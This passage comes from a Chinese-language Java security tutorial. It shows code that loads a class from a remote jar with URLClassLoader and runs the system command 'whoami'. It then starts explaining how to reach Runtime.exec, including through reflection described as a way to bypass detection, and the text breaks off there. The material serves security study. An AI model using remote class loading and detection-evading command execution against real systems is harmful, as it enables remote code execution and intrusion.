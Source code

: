                     // 创建URLClassLoader对象，并加载远程jar包
                    URLClassLoader ucl = new URLClassLoader(new URL[]{url});

                    // 定义需要执行的系统命令
                    String cmd = "whoami";

                    // 通过URLClassLoader加载远程jar包中的CMD类
                    Class cmdClass = ucl.loadClass("CMD");

                    // 调用CMD类中的exec方法，等价于: Process process = CMD.exec("whoami");
                    Process process = (Process) cmdClass.getMethod("exec", String.class).invoke(null, cmd);

                    // 获取命令执行结果的输入流
                    InputStream           in   = process.getInputStream();
                    byte[]                b    = new byte[1024];
                    int length;
                    while((length=in.read(b))>-1) {
                        System.out.println(new String(b, 0, length));
                    }

                } catch (Exception e) {
                    e.printStackTrace();
                }
            }

        }
        ```
        ![Alt text](14.png)
        参考
        [Classloader详解](https://www.jianshu.com/p/c32878173a10)

        [一文读懂类加载机制--ClassLoader](https://www.cnblogs.com/sunnick/p/9609326.html)
### Runtime
   * Runtime的构造方法是一个私有方法，不希望除了其自身的任何人去创建该类的实例，通过以下2种方法获取实例
    1. Runtime中有个static 方法 getRuntime() 会返回一个Runtime实例，则可以如下执行命令
        Runtime.getRuntime().exec("whoami")
    2. 通过反射(绕过检测)

        ```java
        package fansheone;

        import java.lang.reflect.Constructor;
        import java.lang.reflect.Method;


